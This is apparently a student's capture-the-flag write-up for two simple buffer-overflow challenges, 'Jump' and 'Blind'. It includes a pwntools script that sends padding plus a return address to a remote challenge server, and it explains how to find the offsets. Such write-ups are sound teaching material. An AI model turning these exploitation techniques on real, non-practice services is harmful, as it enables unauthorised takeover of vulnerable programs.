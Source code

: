 ## Jump

---

FLAG{REDACTED}

---

Very simple buffer overflow:

1. Fill the buffer with padding (64 bytes from the disassembly)
2. The program spits out a 32 bit address, and since the return address lies right after the buffer (because there are no parameters), all you have to do is encode the bytes properly.

```
#!/usr/bin/python3

from pwn import *

#p = process('./jump')
p = remote('plsdonthaq.me', 2001)

padding = 'A' * 64
addr = p32(0x08048536)

p.sendline(padding.encode() + addr)

p.interactive()
```

## Blind

---

FLAG{REDACTED}

---

Same as jump (as the program says), but you don't know where the win function is.
Now that I have done jump though, this is fairly trivial, as all I have to do is `objdump -d blind | grep win` and I would have the address to put it. So same as before, fill the buffer with padding, then properly encode the address, and boom. Bof.

**Note:** The size of the buffer is very easy to find, but there might be a few cases:

1. Look at the offset from `ebp` that is loaded into the buffer, right before the `setbuf` function or the vulnerable `gets`
2. Cutter would list all the variables defined in the vuln function, with offsets: eg
   ```
    ; var char *s @ ebp-0x44
    ; var int32_t var_4h @ ebp-0x4
   ```
   Which means you can test 0x44 as the offset to your return address. (The buffer size is still 0x40). With the 32 bit int and the base pointer (presumably) stored on the stack you end up with a padding of 0x48 or 72 bytes.
